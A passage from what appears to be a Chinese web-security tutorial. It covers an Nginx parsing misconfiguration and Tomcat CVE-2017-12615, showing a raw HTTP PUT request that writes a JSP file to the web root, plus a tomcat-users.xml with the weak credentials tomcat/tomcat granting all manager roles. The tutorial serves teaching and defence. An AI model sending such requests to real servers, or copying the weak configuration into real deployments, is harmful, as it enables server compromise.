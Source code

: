 该漏洞与 Nginx、php 版本无关，属于用户配置不当造成的解析漏洞。

访问 `http://your-ip/uploadfiles/nginx.png` 和 `http://your-ip/uploadfiles/nginx.png/.php` 即可查看效果。

## [](#4-tomcat-%E5%AE%89%E5%85%A8)4 Tomcat 安全

Tomcat 是 Apache 软件基金会的 Jakarta 项目中的一个核心项目，由 Apache、Sun 和其他一些公司及个人共同开发而成。

Tomcat 服务器是一个免费的开放源代码的 Web 应用服务器，属于轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用。

实际上 Tomcat 是 Apache 服务器的扩展，但运行时它是独立运行的，所以当你运行 Tomcat 时，它实际上作为一个与 Apache 独立的进程单独运行的。

### [](#41-tomcat-%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF)4.1 Tomcat 配置错误

漏洞编号：CVE-2017-12615

影响版本：Apahce Tomcat 7.0.0 - 7.0.79

漏洞说明：当 Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT 请求方法，攻击者将有可能可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件。之后，JSP 文件中的代码将能被服务器执行。

漏洞本质 Tomcat 配置了可写（readonly=false），导致我们可以往服务器写文件：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```fallback<br><servlet><br>    <servlet-name>default</servlet-name><br>    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class><br>    <init-param><br>        <param-name>debug</param-name><br>        <param-value>0</param-value><br>    </init-param><br>    <init-param><br>        <param-name>listings</param-name><br>        <param-value>false</param-value><br>    </init-param><br>    <init-param><br>        <param-name>readonly</param-name><br>        <param-value>false</param-value><br>    </init-param><br>    <load-on-startup>1</load-on-startup><br></servlet><br>``` |

虽然 Tomcat 对文件后缀有一定检测（不能直接写 jsp），但我们使用一些文件系统的特性（如 Linux 下可用 / ）来绕过了限制。

直接发送以下数据包即可在 Web 根目录写入 shell：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```http<br>PUT /1.jsp/ HTTP/1.1<br>Host: your-ip:8080<br>Accept: */*<br>Accept-Language: en<br>User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)<br>Connection: close<br>Content-Type: application/x-www-form-urlencoded<br>Content-Length: 5<br><br>shell<br>``` |

### [](#42-tomcat-%E5%BC%B1%E5%8F%A3%E4%BB%A4)4.2 Tomcat 弱口令

Tomcat 支持在后台部署 war 文件，可以直接将 webshell 部署到 web 目录下。其中，欲访问后台，需要对应用户有相应权限。

#### [](#421-tomcat-%E6%9D%83%E9%99%90)4.2.1 Tomcat 权限

-   manager（后台管理）
    
    -   manager-gui 拥有 html 页面权限
    -   manager-status 拥有查看 status 的权限
    -   manager-script 拥有 text 接口的权限，和 status 权限
    -   manager-jmx 拥有 jmx 权限，和 status 权限
-   host-manager（虚拟主机管理）
    
    -   admin-gui 拥有 html 页面权限
    -   admin-script 拥有 text 接口权限

在 `conf/tomcat-users.xml` 文件中配置用户的权限：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```xml<br><?xml version="1.0" encoding="UTF-8"?><br><tomcat-users xmlns="http://tomcat.apache.org/xml"<br>              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"<br>              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"<br>              version="1.0"><br><br>    <role rolename="manager-gui"/><br>    <role rolename="manager-script"/><br>    <role rolename="manager-jmx"/><br>    <role rolename="manager-status"/><br>    <role rolename="admin-gui"/><br>    <role rolename="admin-script"/><br>    <user username="tomcat" password="tomcat" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-gui,admin-script" /><br>    <br></tomcat-users><br>``` |
